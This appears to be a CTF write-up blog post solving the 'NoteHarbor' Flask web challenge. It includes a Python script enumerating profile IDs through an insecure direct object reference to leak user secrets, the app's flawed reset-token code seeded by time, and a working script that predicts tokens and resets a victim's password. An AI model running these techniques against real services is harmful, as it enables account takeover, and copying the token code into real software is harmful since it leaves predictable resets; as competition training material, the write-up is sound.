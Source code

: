 ```yaml
---
title: NoteHarbor Web Challenge Writeup Cyber Talents 2023
date: 2023-10-22 1:30:00 +0200
categories:
  - ctf
  - cybert_talents
tags:
  - ctf
  - cyber_talents
  - web_applications
---
```


I'm thrilled to share that our outstanding team, `creeprs_249`, has reached an impressive milestone! 🎉 We secured the 50th position among around 450 teams hailing from Arabian countries in the prestigious CyberTalents Arab Regional CTF 2023. This competition brought together top talent from across the Arabian region, and our team's dedication and skills allowed us to stand out and achieve this significant recognition. It's a testament to our hard work, teamwork, and commitment to the field of cybersecurity. We're proud of what we've accomplished and excited about what lies ahead in this ever-evolving and exciting field.

I had the privilege of leading the web challenges, and I'm eagerly anticipating the opportunity to share my insights with all of you. I'm sharing a comprehensive write-up detailing how our team successfully tackled the NoteHarbor medium challenge.

##  Description

Mariel Calderwood: Hi I can't login to my account can you help me?

## Source code:
https://example.com/web/NoteHarbor.zip

## Going Through 

I started going through the web application. It is a simple note-taking app with many functionalities, and the most interesting ones are: 
`/register`
`/login` 
`/profile/{id}`
`/forgot_password/{token}`
`/add_note/{id}`
`/update_note/{id}` 
`/delete_note/{id}`

Then I reviewed the source code. It uses Python's Flask library and SQLite to handle the database. So, I took into consideration the following vulnerabilities as a starting point:

- SQL injection
- Server-side template injection (SSTI)
- Insecure direct object reference
- Some broken access control or authentication issues

I started sending some SQL queries and characters but couldn't find any indication of SQL injection. So, I just created a normal account.

```http
POST /register HTTP/1.1
Host: wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com
Content-Length: 64
Origin: http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com/register
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

email=skullhat%40google.com&username=skullhat&password=askullhat
```
Then I logged into my account, created, edited, and then deleted a note. I went to my profile and saw that my ID is 801.

![Image](/assets/img/uploads/20231022060447.png)

So I tried decreasing it, and it worked! I was able to see the profiles of other users, which included the secret key used in creating the password reset token, as we can see in the source code.

![Image](/assets/img/uploads/20231022060600.png)

Now, we need to get the email of the account in the description of the challenge, "Mariel Calderwood." So, I wrote this simple script to grep it. It iterates through a range of IDs and then checks if the text of the response (`r.text`) contains the string "Mariel Calderwood."

```python
import requests 
import urllib3

urllib3.disable_warnings()

url = "http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com/profile/"
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}
for i in range(0,801):
    r = requests.get(url+str(i),proxies=proxies, cookies={'session':'eyJ1c2VyX2lkIjo4MDF9.ZTN64g.QaqBBC1W-waCzntgZgEwcS4IlHc'})
    if "Mariel Calderwood" in r.text:
        print("Found!")
        print(url+str(i))

```

![Image](/assets/img/uploads/20231021093655.png)

![Image](/assets/img/uploads/20231022062322.png)

The profile of ID 262 contains the following information:

**Email**: [mcalderwood79@storify.com](mailto:mcalderwood79@storify.com) 
**Username**: Mariel Calderwood 
**Secret**: CH5CSTBK6QH6N8J77VNR8KN44RAHXNP2

I returned to the source code to understand how the token is created:

```python
#snip
def generate_reset_token(user, token_length=32):
    letters_and_digits = string.ascii_uppercase + string.digits

    current_time_minutes = int(datetime.now().timestamp() // 60)
    seed = user.secret + str(current_time_minutes)

    random.seed(seed)
    reset_token = ''.join(random.choice(letters_and_digits) for _ in range(token_length))

    return reset_token
#snip
@app.route('/reset_password/<reset_token>', methods=['GET', 'POST'])
def reset_password(reset_token):
    user = User.query.filter_by(reset_token=reset_token).first()
    if user and user.token_expiration > datetime.now():
        if request.method == 'POST':
            new_password = request.form['new_password']
            hashed_password = bcrypt.generate_password_hash(new_password).decode('utf-8')
            user.password = hashed_password
            user.reset_token = None
            user.token_expiration = None
            db.session.commit()
            flash('Password reset successfully. You can now log in with your new password.', 'success')
            return redirect(url_for('login'))
        return render_template('reset_password.html')
    flash('Invalid or expired reset token.', 'danger')
    return redirect(url_for('forgot_password'))
#snip
```

The function `generate_reset_token()` generates a password reset token for a user by combining their secret key with the current time (in minutes) to seed a random number generator, which is then used to create a token of the specified length using uppercase letters and digits.

  
This route handles the reset password process, where it verifies the reset token, checks if it's valid and not expired, and if the request method is POST, it updates the user's password and clears the reset token; otherwise, it renders the reset password page, and if the token is invalid or expired, it provides an error message and redirects to the forgot password page.

This code appears to generate a 32-character token by concatenating the user's secret key with the current time. It's worth noting that `int(datetime.now().timestamp() // 60)` reduces the randomness of the token, making it typically the same if created in the same minute. Additionally, the use of `random.seed()` and `random.choice()` further reduces the likelihood of guessing the token using a script. To learn more about these functions, you can check [this Stack Overflow thread](https://stackoverflow.com/questions/2257441/random-string-generation-with-upper-case-letters-and-digits).

Given that the token expires in 10 minutes and with knowledge of the secret key and the user's email, I've written this script based on the original code:

```python
import requests
import random
import string
from datetime import datetime
import schedule 
# user.token_expiration = datetime.now() + timedelta(minutes=10)
secret = 'CH5CSTBK6QH6N8J77VNR8KN44RAHXNP2'
url = 'http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com/reset_password/'
proxies = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}
token_length=32
letters_and_digits = string.ascii_uppercase + string.digits

def send_request():
    print("Start send_thousand_requests")
    current_time_minutes = int(datetime.now().timestamp() // 60)
    seed = secret + str(current_time_minutes)
    random.seed(seed)
    reset_token = ''.join(random.choice(letters_and_digits) for _ in range(token_length))
    r = requests.get(url+reset_token,proxies=proxies, allow_redirects=False)
    if "Invalid or expired reset token." in r.text:
        return
    else:
        print("Found the token: " +url+reset_token)
        x = requests.post(url+reset_token, data={'new_password':'Asd@1234'},proxies=proxies)
        if "Password reset successfully. You can now log in with your new password" in x.text:
            print("Now you can login using:\n" + "Email: mcalderwood79@storify.com\nPassword: Asd@1234" )

def regenrate_token():
    url ="http://wcomol2z7qrsm350m73p9p6tqzqwndvjympxievy-web.cybertalentslabs.com/forgot_password"
    r = requests.post(url, data={'email':'mcalderwood79@storify.com'},proxies=proxies)
    print('Passwor reset token was reset!')
    
regenrate_token()
send_request()
```

It includes a function, `send_request()`, responsible for generating a password reset token, making a request to a specified URL with the token, and verifying a successful password reset while handling token expiration and login information provision upon success. Another function, `regenerate_token()`, is defined as initiating a request for a password token reset. The script concludes by executing `regenerate_token()` to reset the password token and invoking `send_request()` to search for a valid token and perform a password reset.

![Image](/assets/img/uploads/20231022062127.png)

I used the credentials and woop woop! I successfully obtained the flag!

![Image](/assets/img/uploads/20231022061847.png)

  
When discovering the flag, this joke emerges: "Why did the PRNG developer consistently maintain a poker face? Because they mastered the art of concealing their 'random' expressions!" 🤣
